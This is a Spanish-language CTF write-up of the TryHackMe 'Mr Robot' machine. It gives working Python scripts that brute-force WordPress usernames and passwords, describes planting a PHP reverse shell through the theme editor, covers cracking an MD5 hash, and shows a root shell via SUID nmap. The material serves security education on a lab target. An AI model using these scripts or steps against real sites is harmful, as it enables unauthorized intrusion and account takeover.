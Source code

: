 ```yaml
---
title: "Mr Robot - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/THM/MrRobot/data/mrrobot.png"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  -
---
```


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/data/MR-ROBOT.jpg">
  </p>

  La máquina **MrRobot** es una máquina virtual vulnerable de la plataforma Try Hack Me con un nivel de dificultad **medio**  desarrollada por DarkStar7471 y publicada **24 de Septiembre del 2020** con un sistema operativo **Linux**.

## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.11.112]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **80 y 443**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es que hay un servicio **HTTP** en el puerto **80** y un servicio **HTTPS** en el puerto **443**.

  Cuando entre al servicio **HTTP** desde mi navegador pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/443.png">
  </p>

  Haciendo **fuzzing** podemos ver que cuenta con un recurso **robots.txt** y un **wp-login**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/fuzzing.png">
  </p>

  Primero iremos por el robots.txt, al entrar se pudieron ver el directorio **key-1-of-3.txt** y un recurso **fsocity.dic** el cual puedo descargar a mi maquina:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/robots.png">
  </p>

  Viendo el contenido de **fsocity.dic** puedo ver que es un diccionario con muchos strings variados, y con **858160** lineas:
  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic1.png">
  <div class="caption" ></div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic2.png">
  <div class="caption"></div></center></td>
  </tr></table>
  </div>

## Lateral Movement
  Ya sabiendo esto me dirijo al la ruta **wp-login** ahi veo que es un login de wordpress, en algunas ocasiones los logins de wordpress te permiten enumerar usuarios ya que si ponemos uno valido nos saldria un mensaje diciendo '**ERROR: The password you entered for the username Winsad is incorrect. Lost your password?**' por ejemplo.

  Para esto y ya que no conocemos los usuarios usaremos el dic para hacer un ataque de fuerza bruta, para este ataque hare un script personalizado en python el cual es el siguiete:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *


url = 'http://[IP Machine]/wp-login.php'

s = requests.Session()
print ''
p1 = log.progress("Fuzzeando usuario")
time.sleep(3)
p1.status("Iniciando Fuzzing")
time.sleep(3)

with open('fsocity.dic', 'r') as f:
	for i in f:

		data = {'log' : i,
			'pwd' : 'contra'
			}

		r = s.post(url, data)
		p1.status('Probando %s' % i.strip('\n'))

		if "Invalid username." not in r.text:
			p1.success('Usuario el usuario %s valido ' % i.strip('\n'))
			break
  ```

  Con el script que me acabo de desarollar pude descubrir que el usuario **Elliot** es un usuario valido:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/fuzzU.png">
  </p>

  Ahora que tenemos el usuario haremos una fuerza bruta a la password del usuario **Elliot**, para esto adapataremos un poco el script para que ahora itere sobre la password y no el usuario:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *

url = 'http://[Ip Machine]/wp-login.php'
user = 'Elliot'
s = requests.Session()

print ''

p1 = log.progress('Fuzzeando password')
time.sleep(2)
p1.status('Iniciando Fuzzing')
time.sleep(3)

with open('smallwordlist', 'r') as f:

	for i in f:

		data  = {
			'log' : user,
			'pwd' : i
 		}

		r = s.post(url, data)
		p1.status('Probando password %s' % i.strip('\n'))

		if 'The password you entered for the username ' not in r.text:

			p1.success('La passwor de Elliot es %s' % i.strip('\n'))
			break

  ```
  Yo acote el diccionario ya que eran demasiadas lineas, la constraseña se encontraba en la linea **5627:ER28-0652**, seria un gran punto si le metieramos hilos pero en esta ocasion no lo hare yo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/fuzzp.png">
  </p>

  Ya que encontramos el usuario y la passwod vamos al login de wordpress y ingresamos con las credenciales.

  Dentro de una cuenta con persimos de adminitrador en wordpress es muy facil darnos una shell los pasos serian:
  - Entrar a Appearence.
  - Editar el archivo **archive.php** e ingresar la shell en php en el archivo.
  - Ponernos en escuchar por el puerto especificado en el **archive.php**.
  - Entrar a la url **https://[IP Machine]/wp-content/themes/twentyfifteen/archive.php**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/paginaApparence.png">
  </p>

  Ya una vez que hicimos los pasos y entramos a la url especificada podemos ver que nos da la conexion en nuestra maquina.

  Una vez dentro nos dirijimos a la rutar **/home/robot** y vemos que se encuentra la segunda flag y aparte un archivo **password.raw-md5**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/shell.png">
  </p>


  Si en la maquina victima hacemos un **cat password.raw-md5 \| base64** al archivo y el output que no sales le hacemos un **echo '[output]' \| base64 -d >> hash** en nuestra maquina tenemos el mismo archivo ya en nuestra maquina y asi podemos usar la herramienta de john para poder romper el hash:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/hash1.png">
  <div class="caption" >Maquina visctima.</div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/hash2.png">
  <div class="caption">Maquina del atacante.</div></center></td>
  </tr></table>
  </div>

  Con el hash en nuestra maquina usamos la herramienta de john con el diccionario de **Rockyou** para ver si podemos romper el hash que esta en **md5**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/crak.png">
  </p>

  Ahora que tenemos el password lo usamos para entrar como el usuario **robot**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/robot.png">
  </p>

## Privilege escalation

  Para seguir poder buscar el camino a convertinos en **root** enumeramos el sistema para ver como poder escalar privilegios.

  Usamos el comando ```find / -perm -4000 2>/dev/null``` para poder encontrar algun binario **SUID**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/nmap.png">
  </p>

  Ejecutando este comando vemos que hay un uno el cual es **/usr/local/bin/nmap**, si buscamos en la pagina **[GTFOBINS](https://gtfobins.github.io)** el binario nmap podemos ver que cuenta con una forma para spawnearnos la shell si es **SUID**

  ```bash
  nmap --interactive
  nmap> !sh
  ```
  Haciendo esto podemos ya entrar al directorio root y visualizar la ultima flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/intrusion/root.png">
  </p>
